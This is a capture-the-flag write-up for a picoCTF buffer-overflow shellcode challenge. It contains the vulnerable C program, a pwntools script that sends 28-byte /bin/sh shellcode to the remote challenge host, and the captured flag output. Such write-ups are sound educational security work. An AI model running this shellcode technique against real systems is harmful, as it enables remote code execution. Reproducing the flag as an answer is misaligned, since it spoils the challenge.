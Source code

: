![title](images/title.png)

![hint](images/hint.png)

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Looks like a simple overflow and return to shellcode. Lets explore the source code before we build our exploit

## vuln.c

A simple vuln() function that contains the vulnerable gets function. Notice our buffer at the top which should give us an idea of how much we need to fill
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();
     
  return 0;
}
```

## Strategy

1. Find our buffer amount needed to control the return pointer
2. Build a payload containing the buffer + return_placeholder + nopslide + shellcode
3. Utilize gdb to find a good spot in the middle of our nop slide to use as a return address
4. Send the final payload and get the flag

## Strategy *Update*

After spending waay to long on this it became clear that there was something I was missing. I decided to just throw a shellcode at it (ironic) and I popped a shell

1. Find a shellcode and send it

### apple.py
```python
#!/usr/bin/env python

from pwn import *
import sys

argv = len(sys.argv)

#start process locally or remotely based on args given
if argv > 1:
	from getpass import getpass
	ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
	p = ssh.process('vuln', cwd='/problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed')
else:
	p = process('./vuln')

#/bin/dash 28 bytes
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

p.sendline(shellcode)
p.interactive()
```

<details>
	<summary>Flag</summary>

```
[+] Starting remote process 'vuln' on 2018shell.picoctf.com: pid 352102
[*] Switching to interactive mode
Enter a string!
1�Ph//shh/bin\x89��\x89°\x0b̀1�@̀
Thanks! Executing now...
$ $ cat flag.txt
picoCTF{shellc0de_w00h00_9ee0edd0}$ $  
```
</details>